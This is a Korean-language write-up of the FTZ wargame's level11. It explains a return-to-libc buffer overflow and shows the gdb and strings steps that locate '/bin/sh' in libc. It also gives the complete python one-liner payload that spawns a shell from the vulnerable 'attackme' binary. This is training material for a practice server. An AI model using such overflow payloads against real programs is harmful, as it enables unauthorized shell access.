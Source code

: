 system의 인자로 우리가 실행하고자 하는 명령어를 담은 문자열의 주소값을 전달해야한다. shell을 얻고싶기 때문에 "/bin/sh"의 주소값을 찾아서 넣으면 된다. 신기하게도 libc 내부에는 "/bin/sh"값이 존재하기 때문에 strings명령어를 이용하여 위치를 찾을 수 있다. 그리고 이는 shared library안에 존재하는 것이므로 ASLR이 걸려있지 않다.

```bash
[level11@ftz tmp]$ strings -tx /lib/tls/libc.so.6 | grep "/bin/sh"
 127ea4 /bin/sh

# 0x42000000부터 libc library가 mapping되어있다.
(gdb) x/s 0x42127ea4
0x42127ea4 <__libc_ptyname2+2161>:	 "/bin/sh"
```

따라서 아래와 같이 입력을 해주면 쉘을 딸 수 있다. 주의할 점은 주소값은 little endian이기 때문에 반대로 적어줘야한다는 것이고, system함수 주소와 "/bin/sh" 주소 사이에 4byte padding이 들어가는 이유는 함수 호출 규약에 의해 함수의 첫번째 인자 위에 return address가 들어있어야 하기 때문에 return address부분에 padding을 넣은 것이다.

```bash
# padding 0x10c byte + system함수 주소 + 4byte padding + "/bin/sh" 주소
[level11@ftz level11]$ ./attackme `python -c "print('A'*0x10c + '\xc0\xf2\x03\x42\x41\x41\x41\x41\xa4\x7e\x12\x42\n')"`
sh-2.05b$ my-pass
```

```tip
## 알게 된 점

buffer overflow, nop sled, RTL

ASLR
```
